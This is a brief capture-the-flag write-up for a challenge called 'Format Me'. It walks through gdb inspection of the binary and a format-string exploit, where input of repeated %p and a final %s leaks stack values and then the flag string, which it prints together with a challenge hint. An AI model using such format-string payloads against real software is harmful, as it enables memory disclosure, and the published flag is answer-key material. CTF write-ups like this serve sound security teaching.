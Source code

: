 ## Format Me
Can you please format me to obtain the flag?

### Solution

1.  chmod +x format
2.  gdb format
3.  pd main/disas main
4.  set breakpoint b*0x000000000040115c
5.  r
6.  n
7.  you will see that the flag is in the RAX register
8.  do %p until you see the address to to flag.
9.  to leak out the flag, exit gdb and input %p%p%p%p%p%p >> 0x10x7f03a7a9f8d00x7a667f0x7f03a7a9f8c0(nil)0x7ffd68727140
10. this is the complete flag but in disintegrated addresess 
11. To leak the string form input %p%p%p%p%p%p%s >> 0x10x7f03a7a9f8d00x7a667f0x7f03a7a9f8c0(nil)0x7ffd68727140enc0re{f0rm4t_5tr1n6_vuln3r4b1l1ty}

### Flag
**Flag:** enc0re{f0rm4t_5tr1n6_vuln3r4b1l1ty}

### Hints
Ahh there are kite strings all over the place cutting people's feet. I was planning to format my phone but you know,
vulnerable people priority.